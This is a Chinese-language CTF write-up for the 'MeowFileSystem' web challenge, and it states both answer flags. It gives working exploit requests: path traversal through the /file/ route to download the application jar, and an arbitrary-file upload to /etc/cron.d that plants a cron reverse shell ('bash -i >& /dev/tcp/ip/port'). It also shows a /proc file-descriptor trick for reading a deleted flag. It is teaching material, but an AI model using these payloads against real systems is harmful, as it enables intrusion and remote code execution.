





## MeowFileSystem


### description

两个小题目，分别对应两个 flag：

1. 喵喵有个奇妙的文件管理系统，一不小心好像被人发现了，听说源码里藏了秘密，你能拿到吗？

   Hint: `@GetMapping("/file/{y}/{m}/{d}/{file:.+}")` （后面放

2. 得到源码的你进一步分析，系统权限到手了。听说系统里还有个甜甜的旗子被喵喵一不小心吃掉了，你还能拿到吗？


### flag

1. `tjctf{jv4v_I5_s0_d1f71cu17_f0r_C4ts}`
2. `tjctf{RCE_15_S0_fun_haH4hA}`


### writeup

#### flag1

存在列目录的接口，试试能不能跨目录，发现可以。



通过上传和下载文件，抓包进一步发现 `/file/` 路由可以利用 `../` 实现任意文件读取，但是需要符合 `/file/a/b/c/balabala` 这样的路由。

构造 payload，在 burpsuite 发包，或者用 `curl --path-as-is`

> --path-as-is    Do not squash .. sequences in URL path

```http
GET /file/../EasyFS/../app.jar HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

从而得到源码。



反编译 jar，可以得到喵喵藏的 flag。



拼接后 base64 解码，得到第一个 flag。


#### flag2

进行搜索可以发现，源码修改自 https://github.com/iweisi/easy-fs

通过分析源码，发现写入文件的时候直接拼接了传过来的 filename，可以跨目录进行上传。

又因为题目说了需要 RCE，于是考虑通过文件上传写计划任务，反弹 shell

payload:

```http
POST /file/upload HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=meowmeow
Content-Length: 189

--meowmeow
Content-Disposition: form-data; name="file"; filename="../../../../../etc/cron.d/root"

*/2 * * * * root bash -c "bash -i >& /dev/tcp/ip/port 0>&1 2>&1"

--meowmeow--

```

注意反弹 shell 的命令结尾是 `\n` 而不是 `\r\n`，否则定时任务会执行失败。（都是调过来的啊



得到 shell 之后，通过 ps 获取到有个进程 `tail -f /.fffllla4ggg9`，flag 原本在 `/.fffllla4ggg9` 但是已经被删除了。

由于文件未关闭，通过读取 `/proc/7/fd/3` 即可拿到 flag，这里的 7 为 tail 进程对应的 pid。




喵，出这题调了几个通宵，java 难难，喵喵落泪。

希望大家都能有所收获喵~
